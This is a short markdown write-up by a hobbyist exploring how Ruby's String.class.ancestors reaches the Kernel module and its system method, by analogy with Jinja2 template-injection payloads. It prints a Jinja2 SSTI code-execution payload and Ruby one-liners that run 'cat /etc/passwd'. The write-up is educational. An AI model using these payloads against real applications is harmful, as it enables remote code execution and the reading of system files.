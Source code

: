 # Using Ruby ancestors to Execute Code via the String class
## tldr/oneliner
`ruby -e '"".class.ancestors[3].system("cat /etc/passwd")'`
## Why?
So I was doing a bit of reading on [SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection), specifically that of [Jinja/python](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---remote-code-execution) which looks like this:

```{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}```

For an explanation on how these work in python, I recommend checking out [this writeup](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee). Essentially, it made me wonder if you could do the same thing in ruby, and you definitely can (at least the accessing other methods part). No pwnz yet from me (though I can't be the first to think of this, so it may be a nothingburger, or just a cool trick) 
## How it works
In ruby, you would start by delcaring a string:
```
somestring = "a string";
```
This would create an object from the [String](https://ruby-doc.org/core-2.7.2/String.html) class. Thus, it would have access to all the methods of the String class. It _also_ has some ancestor classes. You can access these like so:
```
somestring = "a string";
puts somestring.class.ancestors;
```
When you run that, you should see the output:
```
String
Comparable
Object
Kernel
BasicObject
```
This is an array of ancestor methods/classes of the String class. Thus, you can access them by index!
```
somestring = "a string";
puts somestring.class.ancestors[3];
```
When you run that, you should see the output:
```
Kernel
```
We are now accessing the [Kernel](https://ruby-doc.org/core-2.7.2/Kernel.html) module, which has some pretty interesting methods... The _most_ interesting to me is the [system](https://ruby-doc.org/core-2.7.2/Kernel.html#method-i-system) method. Using this method, you can execute arbitrary shell commands.
```
somestring = "a string";
somestring.class.ancestors[3].system("cat /etc/passwd");
```
So, just a fun learning experience for me on how you can access things in unique ways in Ruby!
